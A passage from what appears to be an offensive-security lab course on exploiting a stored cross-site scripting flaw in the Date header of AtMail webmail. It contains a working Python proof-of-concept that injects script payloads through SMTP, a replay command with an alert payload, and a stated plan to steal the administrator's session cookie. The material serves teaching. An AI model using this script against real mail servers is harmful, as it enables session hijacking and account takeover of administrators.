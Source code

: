 At this point, we have at least a couple of different injection points and will need to develop a proof of concept script that will allow us to perform our attacks in a more controlled manner. The following script, which will be injecting our various payloads into the Date field, can play that role for us.

#!/usr/bin/python

import smtplib, urllib2, sys

def sendMail(dstemail, frmemail, smtpsrv, payload):
   msg  = "From: attacker@offsec.local\n"
   msg += "To: admin@offsec.local\n"
   msg += "Date: %s\n" % payload
   msg += "Subject: You haz been pwnd\n"
   msg += "Content-type: text/html\n\n"
   msg += "Oh noez, you been had!"
   msg += '\r\n\r\n'
   
   server = smtplib.SMTP(smtpsrv)
   
   try:
       server.sendmail(frmemail, dstemail, msg)
       print "[+] Email sent!"
       
   except Exception, e:
       print "[-] Failed to send email:"
       print "[*] " + str(e)
       
   server.quit()

dstemail = "admin@offsec.local"
frmemail = "attacker@offsec.local"

if not (dstemail and frmemail):
  sys.exit()

if __name__ == "__main__":
   if len(sys.argv) != 3:
       print "(+) usage: %s <server> <js payload>" % sys.argv[0]
       sys.exit(-1)
       
   smtpsrv = sys.argv[1]
   payload = sys.argv[2]
   
   sendMail(dstemail, frmemail, smtpsrv, payload)
Listing 6 - Proof of concept to trigger the XSS vulnerability found in the Date email field

We can then repeat our attack using the following syntax and verify in the admin webmail interface that our script is working as intended:

kali@kali:~$ ./atmail_sendemail.py atmail "<script>alert(1)</script>"
Listing 7 - Replaying a basic XSS payload through our proof of concept

With a proper tool in place, we can now turn our focus to more interesting attacks. One such example would be to steal the administrative session cookie(s) and use them to hijack that session. However, we first need to figure out how to grab the cookies which for now we are only able to display in the victim browser, as shown in Figure 3.
